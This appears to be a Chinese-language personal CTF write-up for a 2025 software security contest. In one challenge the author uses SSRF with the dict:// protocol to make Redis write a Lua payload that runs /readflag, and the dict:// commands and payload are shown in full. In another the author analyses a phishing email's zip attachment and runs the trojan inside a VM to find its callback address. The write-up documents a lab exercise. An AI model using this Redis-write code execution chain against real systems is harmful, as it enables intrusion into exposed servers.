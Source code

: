 ```yaml
---
title: "CCSSSC2025"
date: 2025-01-05
draft: false
description: "软件安全攻防赛 2025"
summary: "软件安全攻防赛 2025 个人WriteUP"
tags: ["writeup", "ctf"]
categories: ["writeup"]
---
```


## WEB

### CachedVisitor

[题目附件](/attachments/ccsssc2025/fishingemail_25da885af63965bf249067b64099c319attachment_20250102090654845.zip)

部分有用的测试：

![可出网证明](/img/posts/ccsssc2025/CachedVisitor-1.png)

![文件读取证明](/img/posts/ccsssc2025/CachedVisitor-2.png)

![dict协议可用证明](/img/posts/ccsssc2025/CachedVisitor-3.png)

容器出网且可读取文件

dict协议可用，可访问redis

分析了一下源代码

```main.lua```从```visit.script```中读取```\##LUA_START##```和```##LUA_END##```之间的内容作为脚本运行

```dockerfile
COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag
```

flag设置了权限无法直接读取

尝试使用redis写visit.script进行RCE

在本地docker编写lua测试可以输出flag

```lua
##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##
```

直接使用redis将lua写入visit.script

```
dict://127.0.0.1:6379/set:payload:"##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##"
dict://127.0.0.1:6379/config:set:dir:/scripts/
dict://127.0.0.1:6379/config:set:dbfilename:visit.script
dict://127.0.0.1:6379/bgsave
```

写入之后随意发送一个请求即可执行我们写入的脚本

> ```dart{dc2e4048-dca7-4fa3-9803-8ee9d785af2b}```

## Misc

### Fishing E-mail

> Bob收到了一份钓鱼邮件，请找出木马的回连地址和端口。 假如回连地址和端口为123.213.123.123:1234，那么敏感信息为MD5(123.213.123.123:1234)，即d9bdd0390849615555d1f75fa854b14f，以Cyberchef的结果为准。

[题目附件](/attachments/ccsssc2025/CachedVisitor.zip)

```yaml
Content-Transfer-Encoding: base64
```

发现编码格式是Base64，我们直接解码查看内容

```
今天是你的24岁生日，祝你生日快乐

<div class="qmbox"><p style="font-family: -apple-system, BlinkMacSystemFont, &quot;PingFang SC&quot;, &quot;Microsoft YaHei&quot;, sans-serif; font-size: 10.5pt; color: rgb(46, 48, 51);">今天是你的24岁生日，祝你生日快乐</p><div xmail-signature=""><xm-signature></xm-signature><p></p></div></div>

生日礼物.zip(BIN)
```

丢CyberChef提取zip发现有密码

```
Date: Mon, 11 Nov 2024 12:54:24 +0800
```

根据生日推测密码```20001111```

成功解压得到exe

在虚拟机中运行后抓包得到反连地址

![抓包结果](/img/posts/ccsssc2025/Fishing_E-mail.png)

> MD5(222.218.218.218:55555)
>
> df3101212c55ea8c417ad799cfc6b509

